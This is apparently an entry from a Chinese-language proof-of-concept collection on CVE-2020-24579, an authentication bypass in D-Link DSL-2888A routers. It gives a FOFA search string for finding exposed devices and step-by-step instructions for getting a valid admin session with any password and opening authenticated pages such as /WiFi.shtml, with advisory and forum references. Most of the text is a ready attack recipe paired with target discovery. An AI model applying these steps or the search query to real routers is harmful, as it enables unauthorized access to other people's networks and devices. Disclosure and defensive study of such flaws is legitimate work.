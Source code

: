 # D-link DSL-2888A 未授权访问漏洞 (CVE-2020-24579)

D-Link DSL-2888A devices 存在授权问题漏洞，该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

FOFA:

```
"DSL-2888A"
```

**PoC：**

```bash
1.访问路由器Web管理地址：http://192.168.1.1/
2.输入任何字符串作为密码进行登录
3.提示密码无效，但是创建了有效的访问会话
4.访问任何经过身份验证的页面，比如：/WiFi.shtml
http://192.168.1.1/WiFi.shtml
```

![-w944](images/16115656107779.jpg)


ref：

* http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202012-1471
* https://www.trustwave.com/en-us/resources/security-resources/security-advisories/?fid=28241
* https://forum.ywhack.com/thread-115029-1-1.html